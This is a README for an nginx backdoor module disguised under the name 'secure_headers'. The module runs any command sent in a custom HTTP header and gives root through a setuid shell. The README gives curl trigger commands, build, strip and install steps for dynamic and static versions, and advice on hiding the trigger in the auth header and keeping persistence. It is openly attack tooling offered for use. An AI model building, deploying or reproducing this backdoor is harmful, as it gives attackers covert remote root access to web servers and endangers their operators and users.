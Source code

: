 # Info
Backdoor command execution as the nginx worker process (www-data)

This inserts itself as a handler during the `NGX_HTTP_ACCESS_PHASE` and looks for a specific header (`backdoor` in source)

When that header is found it executes the value of the header as a command and returns the output
```
curl -H "vgo0: whoami" localhost:8888
root
```

Using a header nginx already references would be more performant instead of having to seek the custom one.

https://github.com/nginx/nginx/blob/master/src/http/ngx_http_request.h

A good spot might be to stack this in the auth header

During module init there is a phase where commands can usually be run as root depending on how nginx is getting started

This can be used to provide escalation persistance (SUID, Privileges, etc)

See `ngx_http_secure_headers_init` for very basic example

A poor mans escalation within command exec is provided via chmod u+s of the shell specified. This then gets passed to popen. On normal nginx teardown this will be reverted (chmod u-s)

It is roughly:

`popen(escalate + " -p -c " + header_in + " 2>&1")`

`popen('/bin/sh -p -c whoami 2>&1')`

popen is ultimately sh -c so it becomes something like:

`/bin/sh -c '/bin/sh -p -c whoami 2>&1'`

There are likely stealthier methods available

Setting `escalate` to `""` avoids this

# Sample
A sample dynamic and static version are provided in the docker folders compiled against `1.21.6`
```
cd docker-dynamic
docker-compose up -d

curl -H "vgo: whoami" localhost:8888
Normal output

curl -H "vgo0: whoami" localhost:8888
root
```

# Usage

This is version specific

# Download
https://nginx.org/en/download.html

Extract

Switch to directory

# Dynamic
## Configure - Dynamic
`./configure --add-dynamic-module=/opt/nginx-backdoor --with-compat`

## Make - Dynamic
`make modules`

## Get .so
```
strip -s objs/ngx_http_secure_headers_module.so
cp objs/ngx_http_secure_headers_module.so ...
```

## Enable - Dynamic
Place .so on disk

Add to nginx config somehow (for dynamic):

load_module path/to/ngx_http_secure_headers_module.so;

service nginx restart

# Static
## Configure - Static
Basic that works can be tested in docker (paths etc should match if replacing):

`./configure --sbin-path=/usr/sbin/nginx --conf-path=/etc/nginx/nginx.conf --error-log-path=/var/log/nginx/error.log --http-log-path=/var/log/nginx/access.log --prefix=/usr/lib/nginx --add-module=/opt/nginx-backdoor`

## Make - Static
`make`

## Get resulting 
```
strip -s objs/nginx
cp objs/nginx
```
